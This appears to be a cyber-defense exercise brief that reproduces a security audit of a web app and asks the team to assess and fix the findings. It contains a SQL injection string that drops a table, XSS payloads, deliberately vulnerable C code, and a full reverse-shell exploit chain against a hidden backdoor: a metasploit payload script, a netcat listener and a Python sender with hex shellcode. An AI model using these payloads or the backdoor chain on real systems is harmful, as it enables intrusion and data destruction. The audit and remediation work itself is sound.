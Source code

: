 # Software Security Audit

## Objective
Someone online has done a software security audit of the source we based out web app on.  In short, they found some major issues.  The report was pulled from a Wordpress blog to out company wiki and is shown below.  Go over the vulnerabilities in the audit and write a detailed report about whether or not your web app is vulnerable to the issues mentioned.  Include details about any mitigations that were taken to prevent the issues mentioned in the audit.  If our web app is vulnerable include details for how could mitigate the attack and a work estimate (guestimate of hours, days, or weeks) of how long it would take to fix the issue(s).

## Web App Vulnerabilities and Exploits

### SQL Injection on Forms
Drop Users table by entering statement below in the "username" field of the login form.  SQL injection appears likely on other forms as well.

`test'; DROP TABLE Users;#`

Note other SQL injections are possible aside from the example above.

### Reflected XSS

The timesheet page takes unsanitized input from the query parameter and embeds it in a hidden html input element, which could result in reflected XSS attacks.

    http://localhost/webapp/timesheet?query=01-02-2014"><script>alert(42);</script>
    
    http://localhost/webapp/timesheet?query=01-02-2014%22%3E%3Cscript%3Ealert%2842%29;%3C/script%3E

### Plaintext Database Password Entries
The MySQL database contains plaintext passwords and other sensitive information.

### Database Dump
Using the libunwind library is used to recover from crashes and dumps the contents of the database on a crash.  Additionally the log_status "feature" (or malware?) causes a crash on average 1/1000 page requests.

    if ((rand() % 1000) == 0) {
        log_stats(stderr, DISPATCH, LOG_LEVEL_DEFAULT);
    }

### Privilege Escalation
The following lines are an accidental or sneaky attempt to make the application run as root.  The if condition actually sets the uid instead of checking it.  A valid check would utilize "==" not "=".
        
	int uid = (int) geteuid();
	if(uid = 0){
		// never run webapp as root, its a security risk
		uid = 1;
	}
	// set uid to non-root user
	setuid(uid);
	seteuid(uid);

### Known Session Identifiers
Cookies utilize poor session management.  Authorization could be bypassed by setting the Cookie "Authorized" field to "yes".  Additionally session names are just the names of user accounts and can be easily guessed by attackers, which could result in privilege escalation attacks.

### Hidden Backdoor
If a POST request is made with the user agent "asn_roodkcab" ("nsa_backdoor" spelled backwards) the string value of the "data" parameter is decoded as ASCII hex to binary and run in executable memory.  This was tested using metasploit to generate a reverse shell payload and sent with a python script to activate remotely.  Sample scripts below.  A demo video of the attack is available [here](https://www.dropbox.com/s/c5z5udh3y384uyu/NCDC2014_Backdoor.mp4).

Generate your shellcode payload.  Sample script to generate payload with metasploit on Kali shown below.  Depending on target machine OS and architecture some changes may need to be made.  This was tested on a target machine running Ubuntu 12.04 LTS 64 bit.

	#!/bin/bash
	clear
	echo -e "Enter attacker machine IP:  \c"
	read IP
	echo -e "Enter port: \c"
	read port
	msfpayload linux/x64/shell_reverse_tcp LHOST=$IP LPORT=$port R | msfencode -b "\x00\x0a\x0b\x0c\x0d" -t c -e x64/xor >> payload
	echo "Finished"
	ls -la payload

On attacking machine setup the reverse shell listener with netcat (set port to the port you want to listen on, example here is port 447):

`run nc -nvvlp 447`

Edit script with the proper IP address or URL of the victim machine and the Hex encode payload you generated in the previous step (note you will need to do some Find/Replace to get it formatted correctly).  Then on the attacking machine run:

	#!/usr/bin/python
	import urllib
	import urllib2
	
	# replace with target machine IP or URL
	url = 'http://192.168.1.154/webapp'
	
	# replace with your target specific shell code
	# note shellcode should be HEX encode without seperating charcters
	values = {'data' : '4831C94881E9F6FFFFFF488D05EFFFFFFF48BBF0C671726F32CBE248315827482DF8FFFFFFE2F49AEF29EB05309488F1987E7727A5835BF2C670CDAF9ACAD5A18EF89405229188DA9E7E77053195AA0F081B53373DCE9706AC4A2AF67A70CD92AF1F5D1C5ACBB1B84F9620387A4204FFC371726F32CBE2'}
	
	headers = { 'User-Agent' : 'asn_roodkcab' }
	
	data = urllib.urlencode(values)
	req = urllib2.Request(url, data, headers)
	response = urllib2.urlopen(req)
	page = response.read()
	
	print page
	
# Buffer Overflows and Memory Leaks
This app makes heavy use of [insecure functions](http://natashenka.ca/wp-content/uploads/2014/01/truebugswait8x11.pdf) that are susceptible to potential buffer overflows from user controlled inputs.  The exploitability of these issues was not explored, but static analysis tools can help to uncover locations of potential issues.

[Coverity with Github integration](https://scan.coverity.com/projects/1311) discovers buffer overflows in the dispatch error message creation code.

    char err[1024] = "No match for ";
    strcat(err, method_str);
    strcat(err, " \"");
    strcat(err, path_info);
    strcat(err, "\"");
    strcat(err, agt);
    error_handler(err);
    
Memory leaks are present all over the application and could be leverage to perform DOS attacks against the application.
